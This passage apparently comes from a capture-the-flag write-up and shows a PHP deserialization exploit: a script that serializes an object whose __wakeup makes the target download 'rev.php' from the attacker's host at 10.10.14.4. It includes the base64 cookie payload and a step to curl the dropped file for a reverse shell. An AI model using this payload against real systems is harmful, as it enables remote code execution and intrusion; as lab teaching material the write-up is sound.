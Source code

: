 {% code title="evil.php" %}
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.4/rev.php";
    public $imgPath = "./rev.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$serialized = base64_encode(serialize(new AvatarInterface))
echo $serialized
?>

$ php evil.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjQvcmV2LnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vcmV2LnBocCI7fQ==
```
{% endcode %}

Then, we can simply send a request with this the output as the cookie. We would get a few hits on our HTTP server.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply curl it to gain a reverse shell.
